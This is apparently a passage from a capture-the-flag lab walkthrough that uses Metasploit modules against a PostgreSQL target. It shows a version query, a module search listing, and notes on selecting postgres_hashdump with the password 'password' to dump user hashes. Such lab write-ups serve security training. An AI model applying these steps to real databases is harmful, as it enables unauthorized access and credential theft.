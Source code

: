 ```bash
msf6 auxiliary(admin/postgres/postgres_sql) > exploit
[*] Running module against 10.10.51.200

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

# What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?
-  #15 auxiliary/scanner/postgres/postgres_hashdump
```bash
msf6 auxiliary(admin/postgres/postgres_sql) > search postgre

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   3   exploit/windows/misc/manageengine_eventlog_analyzer_rce     2015-07-11       manual     Yes    ManageEngine EventLog Analyzer Remote Code Execution
   4   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   5   auxiliary/analyze/crack_databases                                            normal     No     Password Cracker: Databases
   6   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   7   exploit/multi/postgres/postgres_createlang                  2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   8   auxiliary/scanner/postgres/postgres_dbname_flag_injection                    normal     No     PostgreSQL Database Name Command Line Flag Injection
   9   auxiliary/scanner/postgres/postgres_login                                    normal     No     PostgreSQL Login Utility
   10  auxiliary/admin/postgres/postgres_readfile                                   normal     No     PostgreSQL Server Generic Query
   11  auxiliary/admin/postgres/postgres_sql                                        normal     No     PostgreSQL Server Generic Query
   12  auxiliary/scanner/postgres/postgres_version                                  normal     No     PostgreSQL Version Probe
   13  exploit/linux/postgres/postgres_payload                     2007-06-05       excellent  Yes    PostgreSQL for Linux Payload Execution
   14  exploit/windows/postgres/postgres_payload                   2009-04-10       excellent  Yes    PostgreSQL for Microsoft Windows Payload Execution
   15  auxiliary/scanner/postgres/postgres_hashdump                                 normal     No     Postgres Password Hashdump
```
- use #15 and check options
- set password to password